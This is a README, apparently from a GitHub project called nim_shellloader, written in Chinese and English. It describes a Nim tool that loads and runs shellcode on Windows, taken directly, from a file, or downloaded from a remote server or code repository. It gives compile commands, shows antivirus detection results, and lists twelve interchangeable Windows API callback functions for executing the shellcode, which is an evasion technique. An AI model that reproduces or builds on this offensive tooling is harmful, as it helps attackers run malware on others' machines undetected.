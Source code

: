 # nim_shellloader

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
# Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装mingw


It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux


如果出现:```could not load:(libcrypto-1_1|libeay32).dll```


考虑是运行的平台问题 因为编译的时候i386是x86的   所以出现这个问题就把i386换成amd64


```
nim c --cpu:amd64 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
如果是windows上编译 则可以不用加```-d:mingw```


## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
```
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), nil)#12
```
